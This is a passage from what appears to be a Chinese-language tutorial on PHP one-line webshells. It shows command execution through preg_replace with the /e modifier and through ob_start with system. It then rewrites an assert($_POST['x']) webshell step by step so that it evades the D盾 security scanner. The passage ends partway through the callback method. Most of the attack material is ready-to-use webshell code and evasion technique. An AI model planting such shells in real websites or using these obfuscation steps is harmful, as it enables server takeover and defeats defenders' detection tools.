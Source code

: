 ![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39kdQppTLXXLzpY5DadyYNqhEoqdSvbYWG9kbicqC2rTt4ejcgNqjZekfZgh1Dcp5SyjiaOUU8gdohA/640?wx_fmt=jpeg)

### 8、preg_replace 方法

`preg_replace`函数执行一个正则表达式的搜索和替换。我们可以使用一个命令执行函数去替换正常的字符串，然后去执行命令

```
<?php
echo preg_replace("/test/e",phpinfo(),"jutst test");

```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39kdQppTLXXLzpY5DadyYNqiammibpbWGHp5pbaicDXQibfj2Tc4jL1tfBCv9g7yb5UFUdBgIjZothXew/640?wx_fmt=jpeg)

### 9、ob_start

ob_start 函数是打开输出控制缓冲，传入的参数会在使用`ob_end_flush`函数的时候去调用它执行输出在缓冲区的东西

```
<?php
$cmd = 'system';
ob_start($cmd);
echo "whoami";
ob_end_flush();//输出全部内容到浏览器

```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39kdQppTLXXLzpY5DadyYNqSalpiaFybj9UVxuC2W95AaUzaSREbsG2iaIsJe0Y0aj5rZkTUt8z7DDQ/640?wx_fmt=jpeg)

编写免杀
----

上面说了那么多其实都是一句话木马的思路，每一种方式都可以写成一句话木马，而想要免杀常常会多种组合到一起，下面从最简单的木马一步步变形，达到免杀的目的

```
assert($_POST['x']);

```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39kdQppTLXXLzpY5DadyYNqxmFUHZ51Gy0wNBwS1d466Jaicm2Uo2BiavicMexD6SsJIdXAofSZMsvyw/640?wx_fmt=jpeg)

这种就是最简单的一句话木马，使用 D 盾扫一下，可以看到 5 级，没有什么好说的

动态函数方法, 把`assert`这个函数赋值两次变量, 再把变量当成函数执行

```
$a = "assert";
$b = $a;
$b($_POST['x']);

```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39kdQppTLXXLzpY5DadyYNq5GiasxBCAZGa4N1tcMnzjEaTLg4hqiczH4XhM85ajIwzmzFnYBc8rHlg/640?wx_fmt=jpeg)

回调函数方法，把`assert`函数当作参数传给`array_map`去调用执行
